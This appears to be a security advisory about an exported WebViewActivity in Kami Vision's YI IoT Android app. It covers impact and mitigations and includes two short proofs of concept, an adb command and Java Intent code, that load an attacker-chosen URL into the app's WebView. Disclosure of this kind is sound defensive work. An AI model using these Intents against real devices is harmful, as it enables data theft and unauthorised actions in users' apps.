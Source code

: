 

## Vulnerability Details

**Product:** YI IoT 'com.yunyi.smartcamera'  
**Version:** up to 4.1.9_20231127
**Vendor:** Kami Vision  
**Component Affected:** `com.ants360.yicamera.activity.WebViewActivity`  

The activity `com.ants360.yicamera.activity.WebViewActivity` is marked as exported and accepts an implicit Intent, making it accessible from any third-party application. This can be exploited to load a malicious web page in the WebView, potentially leading to RCE (Remote Code Execution) or unauthorized actions.

```markdown
### Proof of Concept 1 - ADB Invocation

```bash
adb shell am start -n com.yunyi.smartcamera/com.ants360.yicamera.activity.WebViewActivity -e path "https://www.example.com/maliciousContent"
```

### Proof of Concept 2 - Third-party Android Java Code

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.yunyi.smartcamera", "com.ants360.yicamera.activity.WebViewActivity"));
intent.putExtra("path", "https://www.example.com/maliciousContent");
startActivity(intent);
```

This Java code snippet demonstrates how a malicious application can invoke the `WebViewActivity` without any permissions, thereby leveraging the vulnerability.

### Impact

The vulnerability does not require any permissions and can be exploited by any third-party application installed on the same device. It could lead to unauthorized access, data theft, or manipulation of user information.

### Recommended Mitigations

1. Set `android:exported` to `false` for `WebViewActivity` if it is not meant to be accessed externally.
2. Restrict the activity to respond only to explicit Intents from trusted sources.
3. Sanitize and validate all Intent data before use within the app.
4. Implement WebView security best practices, including the disabling of JavaScript if it is not essential.

### Steps to Reproduce

1. Install the YI IoT app (version 4.1.7_20231026).
2. Execute the adb command or the Java code provided above.
3. Observe the WebView loading content from the arbitrary, potentially malicious source.
```
